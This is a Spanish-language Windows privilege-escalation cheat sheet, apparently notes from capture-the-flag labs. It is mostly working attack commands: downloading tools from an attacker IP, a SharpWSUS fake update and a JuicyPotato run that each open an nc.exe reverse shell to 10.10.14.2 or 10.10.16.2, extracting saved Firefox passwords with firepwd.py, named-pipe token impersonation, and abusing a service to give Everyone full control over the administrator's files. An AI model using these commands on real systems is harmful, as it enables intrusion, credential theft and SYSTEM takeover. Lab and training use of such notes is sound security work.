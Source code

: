 # Privesc

## Abuso del grupo WSUS Administrator

### Archivos necesarios
```null
iwr -uri http://10.10.14.2/SharpWSUS.exe -o SharpWSUS.exe
iwr -uri http://10.10.14.2/PsExec64.exe -o PsExec64.exe
iwr -uri http://10.10.14.2/nc.exe -o nc.exe
```

### Reverse Shell
```null
.\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```

## Credenciales cacheadas

### Firefox

```null
*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> dir -Force


    Directory: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release
[...snip...]
```

### Uso de firepwd.py

Primero copiar al directorio actual de trabajo el ``key4.db`` y el ``login.json``

```null
python3 firepwd.py
```

## Listar reglas de Firewall

```null
netsh advfirewall show currentprofile
```

## Abuso del privilegio SeImpersonatePrivileage

## Uso de JuicyPotato

```null
PS C:\Temp> .\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -l 1337 -a "/c C:\Temp\nc.exe -e cmd 10.10.16.2 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

## Uso de Named Pipes

Para ello es necesario aprovecharse de una tarea CRON en la que otro usuario se atachée a un named pipe alojado del atacante, de forma que se pueda impersonar para ejecutar comandos como este

### Path

La estructura de llamada es así

```null
\\.\pipe\dummypipe
```

### Explotación

En caso de ser vulnerable, el script en PowerShell de ``decoder_it``, debe devolver el nombre de usuario que se ha conectado

```null
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> .\pipeserverimpersonate.ps1
Waiting for connection on namedpipe:dummypipe
ImpersonateNamedPipeClient: 1
user=HACKBACK\hacker
OpenThreadToken:True
True
CreateProcessWithToken: False  1058
```

#### Alteración del script

```null
###we are impersonating the user, everything we do before RevertoSelf is done on behalf that user
echo "user=$user "
copy C:\Windows\System32\spool\drivers\color\rubbx.bat C:\util\scripts\spool\rubbx.bat
```

## Abuso del servicio userlogger

### Detener el servicio

```null
sc stop userlogger C:\test.txt
```

### Explotación

Pasarle como argumento un fichero con dos puntos al final. Se le asignarán privilegios de lectura y escritura para cualquier usuario

```null
C:\>sc start userlogger C:\test.txt:
```

```null
C:\>icacls test.txt
icacls test.txt
test.txt Everyone:(F)

Successfully processed 1 files; Failed processing 0 files
```

### Iniciar servicio

```null
sc start userlogger C:\Users\Administrator\Desktop\root.txt:
```

## Obtener contenido ADS

```null
more < C:\Users\Administrator\Desktop\root.txt:flag.txt
```

